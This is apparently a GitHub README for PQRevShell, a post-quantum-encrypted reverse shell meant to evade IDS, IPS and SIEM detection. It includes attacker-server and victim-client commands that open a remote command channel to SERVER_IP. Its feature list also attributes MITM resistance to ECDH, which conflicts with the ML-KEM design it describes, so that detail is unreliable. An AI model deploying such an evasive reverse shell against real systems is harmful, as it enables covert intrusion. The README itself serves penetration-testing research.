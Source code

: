 Work In Progress WIP.
All credits to OusCyb3rH4ck.

# PQRevShell
PQRevShell is a **secure reverse shell tool** that utilizes **ML-KEM (aka Kyber)** for secure key exchange and **Chacha20 encryption** to ensure encrypted communication between a client and a server. This project demonstrates a robust and secure way to establish a command execution environment, where commands issued by the server are securely transmitted to the client and executed, with responses being sent back in an encrypted format.

By leveraging **ML-KEM + HKDF** for key exchange and **Chacha20 encryption**, this tool is designed to bypass traditional security systems such as **Intrusion Detection Systems (IDS), Intrusion Prevention Systems (IPS), and Security Information and Event Management (SIEM)** systems, making it a powerful tool for penetration testing in environments with strict monitoring.

### **Key Features:**
- **ML-KEM Key Exchange:** Post-Quantum Secure key exchange using ML-KEM to prevent Man-in-the-Middle (MITM) attacks.
- **HKDF Key Derivation:** Derives a secure Chacha20 key and IV using HMAC-based Key Derivation Function (HKDF).
- **Chacha20:** Encrypts all communication between the client and server.
- **Client-Server Architecture:** Reverse shell functionality with encrypted command execution.
- **Resistance to MITM:** ECDH ensures that even if an attacker intercepts the communication, they cannot decrypt the data.
- **Bypass of IDS/IPS/SIEM:** Chacha20 encryption hides the command and control traffic, making it difficult to detect by network monitoring systems.

### **How It Works:**
1. **Key Exchange:**
   - The server and client generate their own ML-KEM key pairs (private and public keys).
   - They exchange their public keys and compute a shared secret.
   - The shared secret is used to derive a secure Chacha20 key and IV using HKDF.

2. **Encrypted Communication:**
   - All commands and responses are encrypted with Chacha20.
   - The server sends encrypted commands to the client, which decrypts and executes them.
   - The client sends the encrypted output back to the server.

3. **Secure Execution:**
   - The client executes commands in a secure environment and returns the encrypted output to the server.

## **Installation**
1. Install dependencies:
   ```bash
   pip install -r requirements.txt
   ```

2. Clone the repository:
   ```bash
   git clone https://github.com/JuanPardos/PQRevShell
   cd PQRevShell
   ```

3. Make the scripts executable:
   ```bash
   chmod +x client.py server.py
   ```

## **Usage**

#### **Server (attacker):**
Start the server (attacker) with the desired IP and port:
```bash
./server.py -i 0.0.0.0 -p 443
```

#### **Client (victim):**
Connect the client (victim) to the server:
```bash
./client.py -s SERVER_IP -p PORT
```

### **Security Features**
- **ML-KEM Key Exchange:** Prevents MITM attacks by securely exchanging keys.
- **HKDF Key Derivation:** Ensures unique and secure keys for each session.
- **Chacha20 Encryption:** Encrypts all communication to protect against eavesdropping.
- **No Manual Key Sharing:** Keys are exchanged securely without manual intervention.

### **Disclaimer**
This tool is intended for **educational purposes** and **authorized penetration testing** only. Do not use it for malicious purposes. The authors are not responsible for any misuse of this tool.

### **Contributing**
Contributions are welcome! If you have any suggestions, improvements, or bug fixes, feel free to open an issue or submit a pull request.

### **Author**
- [OusCyb3rH4ck](https://github.com/OusCyb3rH4ck)
